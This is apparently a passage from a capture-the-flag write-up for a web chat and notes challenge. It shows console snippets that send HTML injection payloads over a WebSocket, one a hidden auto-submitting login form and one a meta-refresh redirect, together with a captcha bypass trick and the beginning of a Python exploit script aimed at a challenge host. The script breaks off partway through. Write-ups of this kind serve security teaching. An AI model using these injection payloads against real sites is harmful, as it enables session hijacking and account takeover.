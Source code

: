 So we make a form  submit to login as username "test" :
I just paste this in the console 
```js
socket.send(JSON.stringify({
  type: 'LOGIN', 
  username: '<p href ="/" id="username"></p><p id="message"><form action="/login" method="POST"  target="hidden_iframe"><input type="text" name="password" value="test"><input type="text" name="username" value="test"><button class="redirect" type="submit">Save</button></form><script src="/message.js"></script>'
}));

socket.send(JSON.stringify({
  type: 'START', 
  username: 'awef'
}));
```
After that we need to trigger loadPrivates and bypass captcha again to trigger update notes. To trigger update notes we use the same trick when clicking twice at clicking captcha.

My flow like this :

Paste this to console at right time :
```js

socket.send(JSON.stringify({
  type: 'LOGIN', 
  username: ' <meta http-equiv="refresh" content="0;url=?msg=hihi">'
}));

socket.send(JSON.stringify({
  type: 'START', 
  username: 'awef'
}));
```
Then run this collect and predict script :
```py
import asyncio
import os 
import re
import json
import random
import aiohttp
import websockets
import ast

BASE_URL = "http://localhost:3000"   # đổi sang domain
WS_URL = "ws://localhost:3000"       # wss:// nếu chạy HTTPS
BASE_URL = "https://ff7ccd0a-4927-42aa-82d0-5cca00fc80e5.openec.sc:1337"   # đổi sang domain
WS_URL = "wss://ff7ccd0a-4927-42aa-82d0-5cca00fc80e5.openec.sc:1337"       # wss:// nếu chạy HTTPS

#  flag{y0u_4r3_pr3tty_p4w3s0m3_f0r_s0lv1ng_th1s_w1th_th3_c5p}
# flag{y0u_4r3_pr3tty_p4w3s0m3_f0r_s0lv1ng_th1s_w1th_th3_c5p}
FUN_FACTS = [
    "ecsc 2023 took place in norway",
    "ecsc 2024 took place in italy",
    "ecsc 2025 will take place in poland",
    "cats have 8 feet (this is not actually a real fact)",
    "i am a bot",
    "i love music!!",
    "you can store notes in kittychat",
    "you're awesome!",
    "using csp is a great way to make your website unhackable",
    "did you know that vikingskipet was built for the ice skating competition during the winter olympics in 1994?",
    "the solution to this challenge is: flag{dQw4w9WgXcQ}",
```